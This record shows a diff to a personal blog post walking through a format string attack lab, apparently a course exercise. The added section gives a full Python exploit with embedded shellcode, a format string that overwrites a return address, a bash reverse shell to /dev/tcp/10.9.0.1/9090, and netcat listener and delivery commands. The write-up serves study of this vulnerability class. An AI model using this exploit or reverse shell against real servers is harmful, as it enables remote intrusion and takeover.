

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-09-10-format-string-attack.md, in a window 1280 px wide and 1400 px high, scrolled down 19399 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 20320 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update content

````diff
--- a/_posts/2023-09-10-format-string-attack.md
+++ b/_posts/2023-09-10-format-string-attack.md
@@ -876,24 +876,122 @@ with open('badfile', 'wb') as f:
 **image**
 
 
-#### Inject Malicious Code into the Server Program
+#### Inject Malicious Code into the Server Program (A reverse shell)
 
-This task involves injecting a piece of malicious code, in its binary format, into the server’s memory, and then use the format string vulnerability to modify the return address field of a function, so when the function returns, it jumps to our injected code.
+This task involves injecting a piece of malicious code, in its binary format, into the server’s memory, and then use the format string vulnerability to modify the return address field of a function, so when the function returns, it jumps to our injected code - a reverse shell.
 
 In order to inject malicious code into the server program, we would need to modify the value that is stored in the return address of the function we are exploiting. This lab has been designed in such a way that when the program runs, it prints out certain values for the student.
 
 We would be needing two values:
+- the frame-pointer address inside the vulnerable function
+- the input buffer's address
 
-the frame-pointer address inside the vulnerable function
-the input buffer's address
 From the information the server prints out, we can determine these values to be:
+- 0x00007FFFFFFFE0D0 (frame-pointer address)
+- 0x00007FFFFFFFE190 (input buffer's address)
 
-ffffd188 (frame-pointer address)
-ffffd260 (input buffer's address)
 When we build our attack string, it will consist of the following:
+- the return address of the vulnerable function = frame-pointer address + 8
+- the memory address of our malicious code = the input buffer's address + (a value yet to be determined)
+- the malicious code
 
-the return address of the vulnerable function
-frame-pointer address + 4
-the memory address of our malicious code:
-the input buffer's address + (a value yet to be determined)
-the malicious code
+**image**
+
+The code we will use to attack the server is as follows:
+
+```python
+#!/usr/bin/python3
+import sys
+
+# 32-bit Generic Shellcode
+shellcode_32 = (
+   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
+   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
+   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
+   "/bin/bash*"
+   "-c*"
+   # The * in this line serves as the position marker         *
+   "/bin/ls -l; echo '===== Success! ======'                  *"
+   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
+   "BBBB"   # Placeholder for argv[1] --> "-c"
+   "CCCC"   # Placeholder for argv[2] --> the command string
+   "DDDD"   # Placeholder for argv[3] --> NULL
+).encode('latin-1')
+
+
+# 64-bit Generic Shellcode
+shellcode_64 = (
+   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
+   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
+   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
+   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
+   "/bin/bash*"
+   "-c*"
+   # The * in this line serves as the position marker         *
+   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
+   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
+   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
+   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
+   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
+).encode('latin-1')
+
+# Choose the shellcode version based on your target
+shellcode = shellcode_64
+
+############################################################
+#    Construct the format string here                      #
+############################################################
+
+# return address    = 0x00007fffffffe0d8
+# buffer address    = 0x00007fffffffe190
+# shellcode address = 0x00007fffffffe190 + 0x48 = 0x00007fffffffe1d8
+
+r1 = 0x00007fffffffe0d8         # <-- 0xe1d8
+r2 = 0x00007fffffffe0d8 + 2     # <-- 0xffff
+r3 = 0x00007fffffffe0d8 + 4     # <-- 0x7fff
+r4 = 0x00007fffffffe0d8 + 6     # <-- 0x0000
+
+# Create format string
+content = ("%.0032767x%40$hn").encode('latin-1')
+content += ("%.0025049x%41$hn").encode('latin-1')
+content += ("%.0007719x%42$hn").encode('latin-1')
+
+# Append addresses
+content += (r3).to_bytes(8,byteorder='little')
+content += (r1).to_bytes(8,byteorder='little')
+content += (r2).to_bytes(8,byteorder='little')
+
+# determine the size of content before adding the shellcode
+#print(f"size of content before shellcode = {len(content)}")    # -> 72 = 0x48
+
+# shellcode
+content += shellcode
+
+
+# Save the format string to file
+with open('badfile', 'wb') as f:
+  print(f"writing {len(content)} bytes to badfile...")
+  f.write(content)
+```
+
+Next is to set up a listener...
+
+```bash
+nc -nvl 9090
+```
+
+then run the attack.
+```bash
+python3 badfile.py
+cat badfile | nc -w2 10.9.0.5 9090
+```
+
+**image**
+
+<details>
+<summary>Code explanation</summary>
+<div markdown="1">
+
+
+
+</div></details>
````
Also changed, not shown: other parts of _posts/2023-09-10-format-string-attack.md (+5 -5 lines).
